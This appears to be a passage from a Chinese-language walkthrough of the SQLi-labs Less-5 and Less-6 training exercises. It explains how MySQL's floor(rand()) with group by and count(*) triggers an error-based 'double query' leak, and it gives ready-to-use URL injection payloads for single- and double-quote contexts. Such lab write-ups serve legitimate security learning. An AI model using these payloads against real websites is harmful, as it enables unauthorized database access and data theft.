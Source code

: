 ```sql
select count(*), concat(version(),'~',floor(rand(14)*2)) x from test group by x;
```

其中一个比较有趣的点是为什么要用`rand`，能不能写一个固定值？

```sql
select count(*), concat(version(),'~','hello') x from test group by x;
```

不行，这样做等于`group by`常量或者一个列，和普通`group by`没区别。`rand`发挥的关键作用是扰乱插入更新/插入临时表的过程。这个过程可以理解成这样：

```go
if !update(group_key, tally+1) {
    insert(group_key, 1)
}
```

不使用`rand`时`update`和`insert`接收的就是同一个`group_key`，使用`rand`后`update`和`insert`就可能用的不是同一个`group_key`了，导致进入`insert`时插入的是已存在的`group_key`。

另一个有趣的问题是为什么要有`count(*)`？去掉`count(*)`就会导致不再报错。

等大佬解释。

### 题解

`?id=1' union select null,concat(version(),'~',floor(rand(14)*2))x,count(*) from users group by x; --%20`

![image-20220510135044215](image-20220510135044215.png)

> **Attention：** MySQL版本 >=5.7.36 这个解法彻底失效。目前搜索 Double Injection 只有这一个解，如果有别的思路务必告知我。

## Less-6 Error-Based Double Query

和 Less-5 的区别只在于从单引号换成了双引号。稍微改一改 payload：`?id=1" union select null,concat(version(),'~',floor(rand(14)*2))x,count(*) from users group by x; --%20`

![image-20220510140208135](image-20220510140208135.png)

